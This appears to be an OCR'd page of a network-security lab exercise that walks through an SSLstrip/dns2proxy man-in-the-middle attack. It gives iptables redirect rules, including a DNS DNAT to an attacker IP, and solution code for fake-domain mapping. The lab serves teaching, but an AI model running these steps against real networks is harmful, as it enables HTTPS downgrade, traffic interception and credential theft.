\documentclass[final]{article}
\begin{document}
\noindent To correctly mount this attack, you have to follow this procedure:
\begin{itemize}
  \item Mount a MitM attack
  \item Implement the missing code in \texttt{sslstrip/URLMonitor.py} and execute it \texttt{./sslstrip.py -l <sslstrip\_port>}
  \item Create a specific rule to redirect the traffic from the port 80 to the port that sslstrip is running, using iptables\\
  \texttt{sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <sslstrip\_port>}
  \item Implement the missing code in \texttt{dns2proxy.py} and execute it \texttt{./dns2proxy.py}
  \item Create a specific rule to redirect all the traffic in the attacker virtual machine changing the destination ip.\\
  \texttt{sudo iptables -t nat -A PREROUTING -p udp --dport 53 -i enp0s8 -j DNAT --to <attacker\_ip>}
  \item Analyze the behaviour using Wireshark, being sure that all this trick has being working properly
\end{itemize}


\subsubsection{Countermeasures}
Unfortunately, there is no default technique to prevent this type of attack. The user must always check the correctness of the URL in the address bar.

\subsubsection{Solution of the exercise
}
\textbf{Missing code in \texttt{sslstrip/URLMonitor.py}}
\lstset{language=Python}
\begin{lstlisting}
  if host[:4] == "www.":
      fake_domain = "w" + host
  else:
      fake_domain = "web" + host

\end{lstlisting}

\noindent\textbf{Missing code in \texttt{dns2proxy.py}}
\begin{lstlisting}
  if host[:5] == 'wwww.':
      real_domain = host[1:]
  elif host[:3] == 'web':
      real_domain = host[3:]

\end{lstlisting}

\FloatBarrier


\end{document}

